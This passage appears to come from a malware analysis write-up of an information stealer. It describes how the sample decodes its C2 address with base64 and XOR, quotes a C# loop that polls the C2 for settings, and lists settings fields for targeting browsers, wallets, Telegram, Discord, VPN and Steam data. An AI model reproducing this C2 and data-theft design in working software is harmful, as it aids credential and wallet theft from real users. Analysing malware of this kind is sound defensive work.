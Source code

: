 

### Connecting to C2

Then run the `execute` method and pass the `entrypoint` instance a parameter

It will try to use the decryption method taking a string and key to get the IP

The method works as follows

- base64 decode the string
- xor the decoded string with the key
- base64 decode the xor string
- if any exception is raised the original string will be returned

And because the `IP` is not encrypted it will fail and return the same string

This method would be important if the `IP` was encrypted


Continue with the function create `EndpointConnection` object to create a channel with C2 and check the connection establishment



### Recive Setting

Send a request to c2 to send the settings that will control the execution flow of the malware


```c#
ScanningArgs settings = new ScanningArgs();
while (!endpointConnection.TryGetArgs(out settings))
{
  if (!endpointConnection.TryGetConnection())
  {
    throw new Exception();
  }
  Thread.Sleep(1000);
}
```


`ScanningArgs` class attributes that will hold the settings

```
ScanBrowsers
ScanFiles
ScanFTP
ScanWallets
ScanScreen
ScanTelegram
ScanVPN
ScanSteam
ScanDiscord
ScanFilesPaths
BlockedCountry
BlockedIP
ScanChromeBrowsersPaths
ScanGeckoBrowsersPaths
```
